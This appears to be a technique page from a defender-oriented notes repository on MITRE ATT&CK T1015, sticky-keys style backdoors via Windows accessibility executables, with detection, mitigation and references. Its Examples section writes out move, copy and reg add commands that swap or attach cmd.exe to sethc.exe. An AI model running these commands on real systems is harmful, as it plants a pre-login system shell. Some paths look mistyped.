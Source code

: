 # T1015 - Accessibility Features

## Attributes

- **Tactic**: Persistence, Privilege escalation
- **Effective Permissions**: System
- **Data Sources**: Windows Registry, File monitoring, Process monitoring

## Description

The attacker will try to replace an accessibility executable such as **C:\Windows\System32\sethc.exe** or **C:\Windows\System32\sethc.exe** with **cmd.exe**. Once the accessibility executable has been replaced the attacker can now bring command prompt up regardless of user access by pressing **shift 5 times** or pressing **Win + U**.

## Tools to Perform Attack

Windows command line using the **move** or **copy** command.

### Examples

```shell
move /Y %windir%\System32\cmd.exe %windir%\System32\sethc.exe
copy /y %windir%\System32\cmd.exe %windir%\System32\sethc.exe
```

An attacker might also attach cmd.exe as a debugger to these tools by using the windows registry.

```shell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_executable}" /v "Debugger" /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

### Other Accessibility Executables

|File|Description|
|-|-|
|**C:\Windows\System32\osk.exe**| On-Screen Keyboard |
|**C:\Windows\System32\Magnify.exe**| Magnifier |
|**C:\Windows\System32\Narrator.exe**| Narrator |
|**C:\Windows\System32\DisplaySwitch.exe**| Display Switcher |
|**C:\Windows\System32\AtBroker.exe**| App switcher |

## Detection

Compare the hashes of the accessibility executables. A powershell script is available in references.

Monitor the registry at
> HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options

### Example

> HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe

To search for this on kibana you would use the sysmon event ID 12/13/14 (Registry Events), with the context 
`HKLM\SOFTWARE\Microsoft\Windows\Windows NT\CurrentVersion\Image File Execution Options`

### Event IDs

Sysmon - Event ID 12 - Registry object added or deleted (rule: RegistryEvent)
`TargetObject: HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services`
Sysmon - Event ID 1 - Process Create (rule: ProcessCreate)
`ParentImage: utilman.exe /debug`

## Mitigation

- Ensure that Network Level Authentication is enabled so that RDP users can't access the login screen without being logged in.

## References

- [Mitre T1015](https://attack.mitre.org/techniques/T1015/)
- **Atomic Red Team Article**
  - [https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1015/T1015.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1015/T1015.md)
- **Sticky-Keys scanner powershell script**
  - [https://github.com/TrullJ/sticky-keys-scanner/blob/master/TestFor-StickyKey.ps1](https://github.com/TrullJ/sticky-keys-scanner/blob/master/TestFor-StickyKey.ps1)
- **How to configure Network Level Authentication for RDP**
  - [https://www.darkoperator.com/blog/2012/3/17/configuring-network-level-authentication-for-rdp.html](https://www.darkoperator.com/blog/2012/3/17/configuring-network-level-authentication-for-rdp.html)
